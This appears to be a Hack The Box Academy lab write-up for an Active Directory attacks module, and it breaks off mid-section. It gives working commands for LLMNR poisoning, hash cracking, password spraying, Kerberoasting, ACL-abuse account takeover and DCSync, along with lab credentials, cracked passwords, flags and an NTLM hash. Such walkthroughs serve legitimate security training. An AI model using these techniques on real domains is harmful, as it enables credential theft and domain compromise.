# HTB-Active_Directory_Enumeration_and_Attacks

## Table of Contents
1. [Initial Enumeration](#initial-enumeration)
    1. [External Recon and Enumeration Principles](#external-recon-and-enumeration-principles)
    2. [Initial Enumeration of the Domain](#initial-enumeration-of-the-domain)
2. [Sniffing out a Foothold](#sniffing-out-a-foothold)
    1. [LLMNR/NBT-NS Poisoning - from Linux](#llmnrnbt-ns-poisoning---from-linux)
    2. [LLMNR/NBT-NS Poisoning - from Windows](#llmnrnbt-ns-poisoning---from-windows)
3. [Sighting In, Hunting For A User](#sighting-in-hunting-for-a-user)
    1. [Enumerating & Retrieving Password Policies](#enumerating--retrieving-password-policies)
    2. [Password Spraying - Making a Target User List](#password-spraying---making-a-target-user-list)
4. [Spray Responsibly](#spray-responsibly)
    1. [Internal Password Spraying - from Linux](#internal-password-spraying---from-linux)
    2. [Internal Password Spraying - from Windows](#internal-password-spraying---from-windows)
5. [Deeper Down the Rabbit Hole](#deeper-down-the-rabbit-hole)
    1. [Credentialed Enumeration - from Linux](#credentialed-enumeration---from-linux)
    2. [Credentialed Enumeration - from Windows](#credentialed-enumeration---from-windows)
    3. [Living Off the Land](#living-off-the-land)
6. [Cooking with Fire](#cooking-with-fire)
    1. [Kerberoasting - from Linux](#kerberoasting---from-linux)
    2. [Kerberoasting - from Windows](#kerberoasting---from-windows)
7. [An ACE in the Hole](#an-ace-in-the-hole)
    1. [Access Control List (ACL) Abuse Primer](#access-control-list-acl-abuse-primer)
    2. [ACL Enumeration](#acl-enumeration)
    3. [ACL Abuse Tactics](#acl-abuse-tactics)
    4. [DCSync](#dcsync)
8. [Stacking The Deck](#stacking-the-deck)
    1. [Privileged Access](#privileged-access)
    2. [Bleeding Edge Vulnerabilities](#bleeding-edge-vulnerabilities)
    3. [Miscellaneous Misconfigurations](#miscellaneous-misconfigurations)
9. [Why So Trusting?](#why-so-trusting)
    1. [Domain Trusts Primer](#domain-trusts-primer)
    2. [Attacking Domain Trusts - Child -> Parent Trusts - from Windows](#attacking-domain-trusts---child---parent-trusts---from-windows)
    3. [Attacking Domain Trusts - Child -> Parent Trusts - from linux](#attacking-domain-trusts---child---parent-trusts---from-linux)
10. [Breaking Down Boundaries](#breaking-down-boundaries)
    1. [Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows](#attacking-domain-trusts---cross-forest-trust-abuse---from-windows)
    2. [Attacking Domain Trusts - Cross-Forest Trust Abuse - from linux](#attacking-domain-trusts---cross-forest-trust-abuse---from-linux)
11. [Defensive Considerations](#defensive-considerations)
    1. [Additional AD Auditing Techniques](#additional-ad-auditing-techniques)

## Initial Enumeration
### External Recon and Enumeration Principles
#### Tools
1. [View DNS Info](https://viewdns.info/)
#### Challenges
1. While looking at inlanefreights public records; A flag can be seen. Find the flag and submit it. ( format == HTB{******} )

    We can go to this [wesbite](https://viewdns.info/), choose DNS record section. In there, type `inlanefreight.com`. We can see the answer is `HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}`.

    

### Initial Enumeration of the Domain
#### Challenges
1. From your scans, what is the "commonName" of host 172.16.5.5 ?

    First we ssh with credential provided and run `nmap` to scan `172.16.5.5`. We can look for the field inside digital certificate to find the answer. The answer is `ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`.

    

2. What host is running "Microsoft SQL Server 2019 15.00.2000.00"? (IP address, not Resolved name)

    If we check with `ifconfig`, we can see `ens224` netwrok interfaces. It is its internal network, so we can do ping sweeping to `172.16.5.0/23`.

    ```bash
    fping -asgq 172.16.5.0/23
    ```
    

    The scan gave us 3 ip results. We can test each of that with nmap to find which host is running `Microsoft SQL Server 2019` service. The answer is `172.16.5.130`.

## Sniffing out a Foothold
### LLMNR/NBT-NS Poisoning - from Linux
#### Tools
1. responder
#### Challenges
1. Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.

    First we need to ssh with the credential provided. Then we can responder to capture the hash.

    ```bash
    sudo responder -I ens224 
    ```
    After that go to `/usr/share/responder/logs` directory. We will find `SMB-NTLMv2*.txt` file. In there we can find the user that we searched. The answer is `backupagent`.

2. Crack the hash for the previous account and submit the cleartext password as your answer.

    One of the captured hash is like this.

    ```bash
    backupagent::INLANEFREIGHT:7aea7c5d1ba836c8:C4104093906F3BB0B6A5B9A1EC0309A6:010100000000000000083632DA4ADC014380A34FA2FFDCB80000000002000800380037004800460001001E00570049004E002D0033003300360042004C004A003800380046004500320004003400570049004E002D0033003300360042004C004A00380038004600450032002E0038003700480046002E004C004F00430041004C000300140038003700480046002E004C004F00430041004C000500140038003700480046002E004C004F00430041004C000700080000083632DA4ADC0106000400020000000800300030000000000000000000000000300000379D6555F66E3E7DECDC07D73FB639A537E1BF850FED1D146E763E4276C51B320A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    ```
    We can save it and crack it by using hashcat.

    ```bash
    hashcat -m 5600 backupagent_ntlmv2 /usr/share/wordlists/rockyou.txt
    ```
    The answer is `h1backup55`.

3. Run Responder and obtain an NTLMv2 hash for the user wley. Crack the hash using Hashcat and submit the user's password as your answer.

    We can do exactly like question number 2 but with user `wley`. The answer is `transporter@4`.

### LLMNR/NBT-NS Poisoning - from Windows
#### Tools
1. Inveigh
#### Challenges
1. Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.

    First we need to rdp with provided credential.
    
    ```bash
    xfreerdp /v:10.129.48.82 /u:htb-student /p:Academy_student_AD! /dynamic-resolution
    ```
    Then in the rdp session, go to Tools folder. In there, we can find `inveigh.exe`. After we run it, press `esc` to interact on it. We can type `GET NTLMV2UNIQUE` to get all user with its hash. Then we can use hashcat to crack it. The answer is `security#1`.

## Sighting In, Hunting For A User
### Enumerating & Retrieving Password Policies
#### Tools
1. ldapsearch
#### Challenges
1. What is the default Minimum password length when a new domain is created? (One number)

    We can find this answer from the module.

    

    The answer is `7`.

2. What is the minPwdLength set to in the INLANEFREIGHT.LOCAL domain? (One number)

    We can use `ldapsearch` to solve this.
    
    ```bash
    ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 minPwdLength
    ```
    The answer is `8`.

### Password Spraying - Making a Target User List
#### Tools
1. kerbrute
#### Challenges
1. Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?

    We can solve this by using `kerbrute`.

    ```bash
    kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
    ```
    The answer is `56`.

## Spray Responsibly
### Internal Password Spraying - from Linux
#### Tools
1. kerbrute
2. crackmapexec
#### Challenges
1. Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.

    In the previous challenges, we have found all valid user. Then we can save all valid user with the first letter *s* and run `kerbrute`.

    ```bash
    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_user.txt Welcome1
    ```
    The answer is `sgage`.
### Internal Password Spraying - from Windows
#### Tools
1. DomainPasswordSpray
#### Challenges
1. Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.

    First, we need rdp to the target.

    ```bash
    xfreerdp /v:10.129.138.152 /u:htb-student /p:Academy_student_AD! /dynamic-resolution
    ```
    Then we can use `DomainPasswordSpray` to solve this.

    ```powershell
    Import-Module .\DomainPasswordSpray.ps1
    Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue
    ```
    The answer is `dbranch`.

## Deeper Down the Rabbit Hole
### Credentialed Enumeration - from Linux
#### Tools
1. rpclient
2. crackmapexec 
#### Challenges
1. What AD User has a RID equal to Decimal 1170?

    Because we can do SMB null session so We can use `rpclient` to solve this.

    ```bash
    rpcclient -U "" -N 172.16.5.5
    ```
    1170 in decismal is equal to 0x492 in hexadecimal. We can type `enumdomusers` and search user with RID 0x492. The answer is `mmorgan`.

2. What is the membercount: of the "Interns" group?

    We can use `crackmapexec` tool with provided credential in the modul, `forend:Klmcargo2`.

    ```bash
    sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups | grep Interns
    ```
    The answer is `10`.

### Credentialed Enumeration - from Windows
#### Tools
1. bloodhound
2. snaffler
#### Challenges 
1. Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)

    First we need to rdp to the target. Then in there, we can run `sharphound.exe`. It will gather all possible information and compress it in the zip file.

    ```powershell
    .\SharpHound.exe -c All --zipfilename ILFREIGHT
    ```

    After that, we can run `bloodhound`. Then upload the zip file into it. We can go to analysis tab and select `List All Kerberoastable accounts`. 

    

    The answer is `13`.

2. What PowerView function allows us to test if a user has administrative access to a local or remote host?

    The answer is already in the module. The answer is `Test-AdminAccess`.

3. Run Snaffler and hunt for a readable web config file. What is the name of the user in the connection string within the file?

    We can solve this by using `snaffler.exe`. 

    ```powershell
    .\Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
    ```
    

    We can see in there, the web config file, its contain user name. The answer is `sa`.

4. What is the password for the database user?

    Based on the previous image, the answer is `ILFREIGHTDB01!`.

### Living Off the Land
#### Challenges
1. Enumerate the host's security configuration information and provide its AMProductVersion.
    
    We can solve this by typing `Get-MpComputerStatus` in the powershell. The answer is `4.18.2109.6`.

2. What domain user is explicitly listed as a member of the local Administrators group on the target host?

    We can solve this by typing `net localgroup administrators` in the powershell. The answer is `adunn`.

3. Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.

    To solve this, we can use dsquery with some filters. It must user account, account disabled, and have administrative privileges. Then it must display username and the description field. 

    ```powershell
    dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2)(adminCount=1))" -attr sAMAccountName description
    ```
    The answer is `HTB{LD@P_I$_W1ld} `.

## Cooking with Fire
### Kerberoasting - from Linux
#### Tools
1. GetUserSPNs.py
#### Challenges
1. Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.

    We can use `GetUserSPNs.py` to retrive TGS ticket for SAPService.

    ```bash
    GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile SAPService_tgs
    ```

    

    After that, we can use hashcat with mode 13100.

    ```bash
    hashcat -m 13100 SAPService_tgs /usr/share/wordlists/rockyou.txt --force
    ```
    The answer is `!SapperFi2`.

2. What powerful local group on the Domain Controller is the SAPService user a member of?
    
    We can answer this based on the previous image output. The answer is `Account Operators`.

### Kerberoasting - from Windows
#### Tools
1. PowerView.ps1
#### Challenges
1. What is the name of the service account with the SPN 'vmware/inlanefreight.local'?

    First, we can use `PowerView.ps1` to get the list of service account.

    ```powershell
    Import-Module .\PowerView.ps1
    Get-DomainUser * -spn | select samaccountname
    ```

    

    Then we can use `PowerView.ps1` to target specific user until we find SPN `vmware/inlanefreight.local`.

    ```powershell
    Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat
    ``` 
    

    The answer is `svc_vmwaresso`.

2. Crack the password for this account and submit it as your answer.

    We can save the hash in the previous image. Then we can use hashcat to crack it.

    ```bash
    hashcat -m 13100 crack /usr/share/wordlists/rockyou.txt
    ```
    The answer is `Virtual01`.

## An ACE in the Hole
### Access Control List (ACL) Abuse Primer
#### Challenges
1. What type of ACL defines which security principals are granted or denied access to an object? (one word)

    The answer is `DACL`. Discretionary Access Control List (DACL) defines which security principals are granted or denied access to an object. DACLs are made up of ACEs that either allow or deny access.

2. Which ACE entry can be leveraged to perform a targeted Kerberoasting attack?

    The answer is `GenericAll`. tGenericAll grants us full control over a target object.

### ACL Enumeration
#### Tools
1. PowerView
2. bloodhound
#### Challenges
1. What is the rights GUID for User-Force-Change-Password?

    The answer is `00299570-246d-11d0-a768-00aa006e0529`.

2. What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?

    The answer is `ResolveGUIDs`.

3. What privileges does the user damundsen have over the Help Desk Level 1 group?

    The anaswer is `GenericWrite`. This means, among other things, that we can add any user (or ourselves) to this group and inherit any rights that this group has applied to it.

4. Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).

    We can solve this by using bloodhound. First we run `sharphound.exe`.

    ```bash
    .\SharpHound.exe -c All --zipfilename ILFREIGHT
    ```
    Then we run `bloodhound` and upload the zip file in there. After that, click seacrh bar and type `forend`. Select it as starting node. Then type `dpayne` and select it as ending node. 

    

    The answer is `GenericAll`.

5. What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)

    We can use `PowerView` to solve this. This tells PowerView to only get the permissions list (ACL) for the "GPO Management" group.

    ```powerhsell
    Import-Module .\PowerView.ps1
    $sid = Convert-NameToSid forend
    Get-DomainObjectACL -ResolveGUIDs -Identity "GPO Management" | ? {$_.SecurityIdentifier -eq $sid}
    ```
    The answer is `Self-Membership`.

### ACL Abuse Tactics
#### Tools
1. PowerView
2. kerberoast
3. hashcat
#### Challenges

1. Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.

    To solve this, we should perform this following attack chain:

        1. Use the wley user to change the password for the damundsen user
        2. Authenticate as the damundsen user and leverage GenericWrite rights to add a user that we control to the Help Desk Level 1 group
        3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user
    
    Here the detail steps:

    1. Use the wley user to change the password for the damundsen user

        In the previous we have already get wley credential, `wley:transporter@4`. We can use that credential to authenticate as wley.

        ```powershell
        $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
        $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
        ```

        After that, we can reset damundsen password by using wley credential.

        ```powerhsell
        $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
        Import-Module .\PowerView.ps1
        Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
        ```
    
    2. Authenticate as the damundsen user and leverage GenericWrite rights to add a user that we control to the Help Desk Level 1 group

        After We have succesfully reset damundsen password, we can try to authenticate as damundsen.

        ```powershell
        $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
        $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
        ```
        Then we can add damundsen into `Help Desk Level 1` group.

        ```powershell
        Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
        ```

        We can confirm if we have successfully added damundsen into `Help Desk Level 1` group by using this command.

        ```powershell
        Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
        ```
        
    
    3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user

        We can get adunn hash by using kerberoast attack. But to perform it, we must have SPN which is not default for user account. SPN by default is for service not regular account. So we need to create fake SPN.

        ```powershell.
        Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
        ```
        Then we can run `kerberoast`.

        ```powershell
        .\Rubeus.exe kerberoast /user:adunn /nowrap
        ```

        

        Then we can copy the hash and crack it by using `hashcat`.

        ```bash
        hashcat -m 13100 crack /usr/share/wordlists/rockyou.txt
        ```
        The answer is `SyncMaster757`.

### DCSync
#### Tools
1. secretsdump.py
#### Challenges
1. Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.

    To solve this, after rdp to the target, i do ssh to 172.16.5.225. In there, we can use `secretsdump.py`. Find the `CLEARTEXT` result.

    ```bash
    secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 | grep CLEARTEXT
    ```
    

    The answer is `syncron`.

2. What is this user's cleartext password?

    Based on the previous image, the answer is `Mycleart3xtP@ss!`.

3. Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.

    We can use `secretsdump.py` again to solve this.

    ```bash
    secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 | grep khartsfield
    ```
    

    The answer is `4bb3b317845f0954200a6b0acc9b9f9a`.

## Stacking The Deck
### Privileged Access
#### Challenges
1. What other user in the domain has CanPSRemote rights to a host?

    We can solve this by using `bloodhound`. After upload the zip file into `bloodhound`, we can use this query.

    ```neo4j
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
    ```
    

    The answer is `BDAVIS`.

2. What host can this user access via WinRM? (just the computer name)

    Based on the previous image, the answer is `ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`.

3. Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.

    To solve this, we can use linux attack host and use `mssqlclient.py`.

    ```bash
